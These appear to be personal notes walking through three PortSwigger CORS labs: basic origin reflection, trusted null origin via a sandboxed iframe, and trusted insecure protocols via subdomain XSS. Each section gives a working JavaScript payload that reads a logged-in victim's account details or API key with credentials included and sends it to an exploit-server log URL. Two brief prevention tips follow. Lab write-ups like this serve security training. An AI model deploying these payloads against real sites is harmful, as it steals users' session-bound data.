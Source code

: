# Cross Origin Resource Sharing

## Lab: CORS vulnerability with basic origin reflection
`/accountDetails` endpoint response headers include `Access-Control-Allow-Credentials: true/`, which means CORS enabled. Visiting this endpoint successfully in a new tab can verify this.

```html
<script>
fetch('https://0aff00e0032c129a802e174b0051007c.web-security-academy.net/accountDetails', {credentials:'include'})
    .then(r => r.json())
    .then(j => {
        document.location = "https://exploit-0a4a007303e4120780a21602017e0088.exploit-server.net/log?key=" + j.apikey;
    })
</script>
```

## Lab: CORS vulnerability with trusted null origin

iframe srcdoc can make Origin header to be null.  
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0ad7003d043537e880f1fee700bd0077.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://exploit-0a59000f046037f6807efd0c01f800f0.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>">
</iframe>
```


## Lab: CORS vulnerability with trusted insecure protocols

**IMPORTANT**: This lab needs you to enable third-party cookies.  

This work for "View Exploit", but not geting administrator request after delievered.

```html
    <script>
        document.location="http://stock.0a22009104211e5a80c844d600a3000c.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a22009104211e5a80c844d600a3000c.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {document.location='https://exploit-0a2b0010040d1e598057439701bd0016.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
    </script>
```

I think there something wrong with this lab. Even deliver this simple version to victim, there won't be this request logged.
```html
<script>
      document.location='https://exploit-0a2b0010040d1e598057439701bd0016.exploit-server.net/log?key=wuhao';
</script>
```


## Prevention:

1. Carefully set `Access-Control-Allow-Origin`, whitelist, no `null`, no wildcards;
2. Server-side security.